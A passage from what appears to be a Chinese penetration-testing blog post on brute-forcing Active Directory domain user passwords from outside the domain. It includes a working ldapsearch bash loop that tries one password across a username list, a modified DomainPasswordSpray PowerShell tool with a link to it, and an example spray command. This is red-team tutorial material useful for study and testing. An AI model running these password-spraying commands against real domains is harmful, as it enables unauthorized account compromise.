 
在之前的文章文章[《渗透基础——活动目录信息的获取》](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E5%9F%BA%E7%A1%80-%E6%B4%BB%E5%8A%A8%E7%9B%AE%E5%BD%95%E4%BF%A1%E6%81%AF%E7%9A%84%E8%8E%B7%E5%8F%96/)介绍了kali系统下使用ldapsearch连接LDAP服务器的方法

这里可以简单的加一个循环实现暴力破解，完整的bash命令如下：

```
for i in $(cat test.txt); do echo -e "\n$i";ldapsearch -x -H ldap://192.168.1.1:389 -D "CN="$i",CN=Users,DC=test,DC=com" -w DomainUser123! -b "DC=test,DC=com" |grep "# numEntrie";done
```

test.txt保存所有用户名，如果口令正确，输出查询结果的个数，如果口令错误，返回验证错误：`ldap_bind: Invalid credentials (49)`

输出结果如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2019-12-26/3-1.png)

成功暴力破解出用户testb的口令

### 2.Windows系统通过Invoke-DomainPasswordSprayOutsideTheDomain暴力破解域用户口令

DomainPasswordSpray的功能比较完整，但不支持域外的使用，所以我在DomainPasswordSpray的基础上做了一些修改，使其支持域外的使用

具体修改的位置如下：

原版中修改LDAP查询的语句:

```
$DomainContext = New-Object System.DirectoryServices.ActiveDirectory.DirectoryContext("domain",$Domain)
$DomainObject = [System.DirectoryServices.ActiveDirectory.Domain]::GetDomain($DomainContext)
$CurrentDomain = "LDAP://" + ([ADSI]"LDAP://$Domain").distinguishedName
```

替换为LDAP的查询语句，示例：`"192.168.1.1/DC=test,DC=com"`

最终的完整查询语句为：`LDAP://192.168.1.1/DC=test,DC=com`

由于是在域外进行暴力破解，无法获得域用户的口令策略，所以我移除了DomainPasswordSpray中获得口令策略的功能

我已经将修改后的代码上传至github，地址如下：

https://github.com/3gstudent/Homework-of-Powershell/blob/master/Invoke-DomainPasswordSprayOutsideTheDomain.ps1

域外使用的示例命令如下：

```
Invoke-DomainPasswordSprayOutsideTheDomain -Domain "192.168.1.1/DC=test,DC=com" -UserList .\user.txt -Password DomainUser123! -Verbose 
```

输出结果如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2019-12-26/4-1.png)

## 0x05 利用思路
---

